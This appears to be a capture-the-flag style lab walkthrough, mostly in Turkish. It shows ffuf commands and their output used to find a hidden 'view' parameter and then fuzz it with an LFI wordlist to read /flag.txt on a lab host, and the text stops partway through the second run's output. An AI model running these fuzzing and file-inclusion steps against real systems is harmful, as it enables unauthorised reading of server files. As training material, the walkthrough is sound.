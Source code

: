 ## Questions

```text
Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt
```

??? tip "Steps"

    FFuF kullanarak geçerli bir parametre bul:

    ```bash
    ffuf -ic -fs 2309 -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.255.150:57245/index.php?FUZZ=value'
    ```

    ```text title="Output" hl_lines="22"
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
         \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
          \ \_\   \ \_\  \ \____/  \ \_\
           \/_/    \/_/   \/___/    \/_/

        v2.1.0-dev
    ________________________________________________

    :: Method           : GET
    :: URL              : http://83.136.255.150:57245/index.php?FUZZ=value
    :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response size: 2309
    ________________________________________________

    view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 78ms]
    :: Progress: [6453/6453] :: Job [1/1] :: 94 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
    ```

    Bulunan parametreyi (`view`) kullanarak uygun bir LFI dizesi bul:

    ```bash
    ffuf -ic -fs 1935 -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.255.150:57245/index.php?view=FUZZ'
    ```

    ```text title="Output" hl_lines="26"
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
         \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
          \ \_\   \ \_\  \ \____/  \ \_\
           \/_/    \/_/   \/___/    \/_/
